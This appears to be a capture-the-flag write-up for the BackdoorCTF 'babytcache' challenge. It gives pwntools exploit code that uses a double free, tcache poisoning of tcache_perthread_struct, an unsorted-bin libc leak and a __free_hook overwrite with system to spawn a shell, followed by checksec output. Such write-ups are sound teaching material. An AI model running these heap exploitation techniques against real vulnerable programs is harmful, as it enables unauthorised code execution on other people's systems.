 ```c
```

This tells us one thing: in order to get a libc leak, we can't do the classic "Fill a tcache bin with 7 chunks and the 8th free will go into the unsorted bin and provide a leak", since we are limited to 5 frees.

#### Steps to solve

I initially set up three chunks and did a double free to get a heap leak as follows:
```python
add(0, 0x80, 'A'*0x80) # Used for heap leak
add(1, 0x80, 'A'*0x80) # Used for libc leak
add(2, 0x80, 'A'*0x80) # Prevent consolidation with top
free(0)
free(0)
show(0)

heap = u64(p.recvline().split(':')[1].strip().ljust(8, '\x00')) - 0x260
log.info('Heap base: ' + hex(heap))
```

With the heap leak, I got a chunk inside the `tcache_perthread_structure` and overwrote the size value of the 0x80 tcache bin to make it look like its full:
```python
# Tcache poisoning attack
edit(0, p64(heap+0x10))
add(3, 0x80, 'A'*0x80)
add(4, 0x80, p64(0x0700000000000000))
```

Freeing the chunk at index 1 will now send it to the unsorted bin and provide us a libc leak:
```python
# Leak libc
free(1)
show(1)

libc.address = u64(p.recvline().split(':')[1].strip().ljust(8, '\x00')) - 0x3ebca0
log.info('Libc base: ' + hex(libc.address))
```

Then I simply edited the chunk that we already had in the `tcache_perthread_struct` and made the 0x80 tcache bin pointer point to `__free_hook`, and then overwrote `__free_hook` with `system`:
```python
edit(4, '\x00'*0x78 + p64(libc.sym['__free_hook']))
add(5, 0x80, p64(libc.sym['system']))
```

Finally, I edited chunk 0 to make its first 8 bytes `'/bin/sh\x00'` and freed it to get a shell:
```python
edit(0, '/bin/sh\x00')
free(0)

p.interactive()
```
```sh
vagrant@ubuntu-bionic:/ctf/practice/backdoorctf/babytcache$ ./exploit.py REMOTE
[*] '/ctf/practice/backdoorctf/babytcache/babytcache'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/ctf/practice/backdoorctf/babytcache/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```